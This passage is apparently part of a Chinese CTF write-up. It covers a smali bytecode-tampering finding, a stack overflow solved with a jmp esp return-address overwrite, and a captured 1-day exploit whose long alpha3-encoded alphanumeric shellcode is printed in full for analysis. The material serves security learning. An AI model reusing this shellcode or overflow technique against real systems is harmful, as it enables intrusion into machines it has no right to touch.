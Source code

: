         move-result v2 //函数结束了

再看看ob方法，发现这个段就是ob方法的smali代码。   
到这里，所有都明白了，原来是做了动态字节码篡改，修改了a方法。   


#PWN
##exp1
###350

>有一个参数可以使程序弹出计算器，找出这个参数并把它MD5值作为flag提交。

利用输入参数与‘dC’的异或值来控制覆盖长度，题中给出了通用jmp esp地址7ffa4512。      
所以，想办法让jmp esp覆盖ret地址即可。      
然后,发现,只要填充24个A就可以了,就知道要输入gd还是dg来着,拿着这个字符去md5一下就是flag.      

    echo dg > 1.dat && md5sum 1.dat | cut -b 1-32 && rm 1.dat

>flag is: a6be8a33b7c987f4ffb76d9c9805c7eb

##1day
###450

>IPS发现并捕获到了一个1day漏洞的利用，还好有防御措施，系统未被攻陷。请你帮danny后续分析一下这次漏洞利用的payload，分析并找到它的验证密钥。      

这个是个挺好玩的题目。      
给的是一段字符：      

    Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M15103
    l0y4q3J3d8O4F8K095N0O3L5k3W4p1L3m3O8m018M4T3l0E4V1K1M0m0L1K0z8L4
    O8N4s3A4Y5l1P0e5M4I8K3T3p3g3B0g8O8P3119120z3Y1p0G0n7p2m2t2Z1M034
    N4Y8M4A3N0R4U4u8O7O370e4p1o4B0X0c3E3c2p3s303M0f0x3F3R2r4Z3v8o0V0
    E7k0l0K2z2D190T123D4o7L4G5K2z0v4I3Z3R4B3J3c38175M313a5p3y3a4X114
    O394o4F3C3g4W184W343c4A2r0g3e05313M4n0l4V2w0l4J3R4Q3G153V4x4l0S0
    q2t0V0D4z3D3R020P3G3v163Y4z3a1p1N3E40113P304U1n0a3G3t193r304y0V3
    m0V300a8P5N8M3f3L4u3Y2D8M4r4P3g4I4u3B2E5o314N3b3O4r3V7p3z5K4B0U0
    I3E3p1M3n3D2t0x374U402n7N4X3q0b031p8M8M3P40364K4o8O0H2z0H3p3V054
    l3H2n2u4r3v2F7M4q4O7K2j2q2D2I2w324P4J19134A0b4K4U4W3c0G0T174I5O3
    U4u4t3o3g4H4q0G0r4Y3O0A4O0V4u2u4p4U1K2B4o3c3g0w5p0Y3R0u0O4R0S0d4
    Y7L5K0D2C7N2M3q3z7L320e4W0m2v8l5L4W3X8N0q7l2Z024B4P8L8K8L3g5L0T7
    L8L3v040h144k4x4P4t4v8O8M403r4M4p8L3L0E113p0A4n3L3f12124O361N4G4
    M4Q3t2n094C3D141M0E8K4B4S4Z0c3Y0Q023D0F4U4W1n0q333K1K2y4p335l5N0
    k0m153R0h2L370A3n7N330d4A0m5N1m083l08084V3C3D0w4Q1o4J8K060b8l054
    v3D0j144T5l0h3m8L7K2G4y0a4Q3A3j3X7L5n0b4n4V1N0t3Z3K0W4M3F2L2H4q1
    M0n340w0j4j3b194y8m3w0u1k0Y3J2F3b7O5M0U3f4W2v3c4F1k5M1o2q383R123
    23t0m144F7M365N2o2K3V0A4k5l1k3l3g7K5N0G0W15315M0p0l2k2k2E0I3V335
    O4S3U2o1P4H3V1L053s4s2m0a00360o3Y3X2Z4M1p5k0x0n4s4Y5M8L3q3b4A1M0
    43p3I1n3K4R4E0t3G3J1n4j4n4v325N4q4t4U0E4k3C5K4y0B3H0x174N5k1K0e4
    Q3N0L134Y5n0v404p2w2L0A4v3D4D7m4C3C5m193Z4W3S1O2M4C4E8N2j3C1L013
    74Q2E0N3o3D8N4q0d3u7p2o2q3D8L100p3J124n4s4T3u4E7N3D0R4Z3j3d4G4x8
    N5M3F117O3B0u3b3H4V4W4L4I8l4k7l2p0Q3l0B2x2r2v2Z0p8P164L3L2K2j0A0
    Z3L0k0N4M5n0a0k323H4E5m400V8l075o3p5M102j0m0n054B4Y4M093i4V353y3
    S4l360Y360Y5m8M0G0n1L0w3K2K5n5L8n4Q4U0E0e5l0K3N3Y2N3U0A3m2K4q0x0
    E0P3f4y2t4n18023e1M0Q0A8o4R3N3e3T5n3W5K0W4R3H1P373w7o388K2L138N7
    M4T0c0G0O4U4U103o3m374G8N3F3a0q2q8P3w170a5m3a0y5L0S4B0B0a4V4Z4C4
    L8L0w0A2C5n3X402J4P3C4E3i1n4v2v3c3I0x2J4S3x304y4s4u4V197K2s3K0u3
    u3A4A2z2B03
然后，一看就知道是alpha3处理过的字符数字shellcode。      
于是找出alpha3，生成了多生成了几个模板：      
